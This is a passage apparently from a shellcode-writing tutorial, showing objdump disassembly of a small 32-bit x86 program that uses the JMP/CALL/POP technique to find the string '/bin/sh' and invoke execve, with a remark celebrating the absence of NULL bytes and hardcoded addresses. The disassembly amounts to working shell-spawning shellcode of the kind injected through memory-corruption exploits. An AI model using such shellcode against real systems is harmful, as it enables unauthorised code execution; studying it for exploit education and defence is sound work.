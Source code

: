 ~~~
$ objdump -d execve

execve:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	eb 0b                	jmp    804806d <hack>

08048062 <realStuff>:
 8048062:	31 c0                	xor    %eax,%eax
 8048064:	b0 0b                	mov    $0xb,%al
 8048066:	5b                   	pop    %ebx
 8048067:	31 c9                	xor    %ecx,%ecx
 8048069:	31 d2                	xor    %edx,%edx
 804806b:	cd 80                	int    $0x80

0804806d <hack>:
 804806d:	e8 f0 ff ff ff       	call   8048062 <realStuff>

08048072 <shell>:
 8048072:	2f                   	das    
 8048073:	62 69 6e             	bound  %ebp,0x6e(%ecx)
 8048076:	2f                   	das    
 8048077:	73 68                	jae    80480e1 <shell+0x6f>
~~~

Awesome! No hardcoded addresses OR NULLs! This is the tricky magic of the *JMP/CALL/POP* technique :)
